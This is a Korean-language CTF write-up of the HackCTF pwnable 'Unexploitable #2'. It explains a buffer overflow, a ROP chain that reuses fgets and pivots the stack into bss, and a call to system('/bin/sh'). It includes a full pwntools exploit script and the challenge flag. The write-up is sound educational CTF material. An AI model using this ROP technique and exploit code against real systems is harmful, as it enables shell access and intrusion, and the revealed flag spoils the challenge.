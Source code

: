 # _Unexploitable #2_

**Category:** _Pwnable_

**Source:** _HackCTF_

**Points:** _400_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Write-up

![img](resource/checksec.png)

PartialRELRO와 NX만 적용이 되어있습니다. canary가 없는걸보니 overflow가 가능할 듯 합니다.

우선 main을 분석했습니다.(ida화면 있으면 좋긋다...)

![img](resource/pdisas.png)

간략하게 main의 기능을 설명하자면 fwrite로 stdout에 "Hard RTL ha? You don't even have fflush@dynstr!\n"을 출력합니다.

그 후 fgets로 입력을 받는데 64만큼 받으면서 overflow가 발생합니다.

다른 함수로는 gift함수가 주어집니다.

system()이 있고 system안에는 "use this system gadget :D"이 있습니다.

system이 있으니 "/bin/sh"만 입력해서 호출하면 됩니다. 

bof가 가능하니 ROP로 생각했습니다.

exploit시나리오는 다음과 같습니다.

gadget을 사용해서 fgets의 인자를 알맞게 넣어주서 "/bin/sh" 입력

pop_rdi_ret gadget을 사용해서 system을 호출할때 앞에서 입력해준 "/bin/sh"를 사용합니다.

"/bin/sh"를 입력해주기 위해 가능한 함수로 fgets가 있습니다. 

하지만 fets에는 rdi, rsi, rdx, rcx 4개의 레지스터를 조작해야 합니다.

ROPgadget으로 찾아보니 rdx와 rcx를 조작해줄 gadget이 없었습니다. 

![img](resource/gadget.pnt)

ROP로 완전히 다시 작성할 수 없어서 기존에 있던 fgets를 재활용 했습니다.

![img](resource/fgets.png)

fgets인자 중에서 우리는 입력한곳이 들어갈 buffer만 바꿔주면 됩니다. 

이 buffer는 rdi에 있는데 rbp_0x10의 위치가 들어갑니다. 

따라서 우리는 rbp를 수정해 줘야합니다.

다행히 pop rbp에 대한 gadget이 있어서 사용했습니다.

payload를 dummy(0x18) + pop_rbp_ret + bss_address + main+98(fgets) + pop_rdi_ret + bss_address + gift+14(system) 으로 작성하였습니다.

이 때 2가지 문제점이 생겼는데

첫번째는 fgets에서 64byte만큼만 입력을 받는데 위의 payload는 72byte입니다.

하지만 이문제는 자연스레 해결되었습니다.

두번째 문제는 fgets를 사용 후 main epilogue에서 leave를 할때 rbp가 수정이 됩니다.

이때 우리가 rbp를 수정 했기 때문에 stack pointer가 바뀌어서 뒤의 payload를 사용할 수 없게 되었습니다.

![img](resource/before.png)

leave전 rbp와 rsp입니다.

![img](resource/after.png)

leave후 rbp와 rsp입니다.

이렇게 rsp가 바뀌게 됩니다. 바뀌는 포인터를 보면 "/bin/sh"입력한 곳 16byte 뒤입니다. 

적용할 수 없던 후반부 payload를 새로운 stack에 올리기 위해 fgets로 "/bin/sh"를 입력할 때 추가로 payload도 같이 올려주었습니다.

"/bin/sh" + dummy(16) + pop_rdi_ret + bss_address + gift+14(system)으로 입력해 주었습니다.

아래는 python script입니다.

```python
from pwn import *

if __debug__:
	script='''b* main+117
	c
	'''
	p=gdb.debug('./Unexploitable_2',script)
	#p=process('./Unexploitable_2')
else:
	p=remote('ctf.j0n9hyun.xyz','3029')


rbp_ret=p64(0x4005e0)
rdi_ret=p64(0x400773)
system_addr=p64(0x400684)
fgets=p64(0x4006ee)
data=p64(0x601940)
data10=p64(0x601950)
sh=p64(0x4007dd)

payload='a'*0x18+rbp_ret+data10+fgets

p.recvline()
p.sendline(payload)
p.sendline('/bin/sh\x00'+'\x00'*16+rdi_ret+data+system_addr+'\x00'*100)

p.interactive()
p.close()
```

bss영역을 처음에는 0x601040으로 잡았는데 system을 호출할 때 error가 났습니다. writeup을 참조하니 system은 stack을 많이 사용한다고 해서 공간이 많은 곳을 잡아줘야 한다고 해서 bss영역을 +0x900으로 바꿔주었습니다.
아직 이부분에 대해서는 이해가 안되어서 공부를해야하지싶습니다....


Flag : HackCTF{u5e_syst3m_t0_get_le4k}
